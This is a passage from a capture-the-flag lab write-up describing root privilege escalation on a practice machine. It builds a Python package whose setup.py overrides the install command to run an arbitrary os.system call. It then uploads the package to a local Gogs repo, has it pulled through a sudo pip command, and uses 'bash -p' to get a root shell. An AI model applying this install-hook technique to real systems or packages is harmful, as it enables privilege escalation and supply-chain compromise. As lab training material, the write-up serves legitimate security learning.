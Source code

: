 ```python

class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)

setup(
    name = "this_is_fine_wuzzi",
    version = "0.0.1",
    license = "MIT",
    packages=find_packages(),
    cmdclass={
        'install' : RunInstallCommand,
        'egg_info': RunEggInfoCommand
    },
)
```

Note that we also need to `import os` as well. Otherwise we cannot call `os.system()`. Then we need to install `build`. 

`pip install build`

Then we need to call it.

`python3 -m build`

This will package up our malicious file nicely.

![](/images/only4you/only20.png)

Once we've built the `.tar.gz` it's spit out into the `dist` directory in the repo we pulled. We can now that that file and upload it to `Gogs`. 

We go to the `Test` repo, and click the `upload file` button. Then we drag the file over to our upload window, comment and Commit the change.

![](/images/only4you/only21.png)

Once done, we see the file is indeed listed. We only need to obtain the full file path and supply that to our `sudo` command.

![](/images/only4you/only22.png)

Full path: `http://localhost:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz`

After much trying I wasn't able to see to get it to pull the `tar.gz`

![](/images/only4you/only23.png)

It seems the box was either designed to work this way or extremely unstable. So instead, I created a new repo. I had to recreate the repo 5 times before it stuck. Once it was created, I uploaded our malicious `tar` file to that repo and pulled it down.

![](/images/only4you/only24.png)

Once that worked, we simply issue the `bash -p` command and we get a new shell as `root`! We've not got the `root.txt` flag. Another one bites the dust!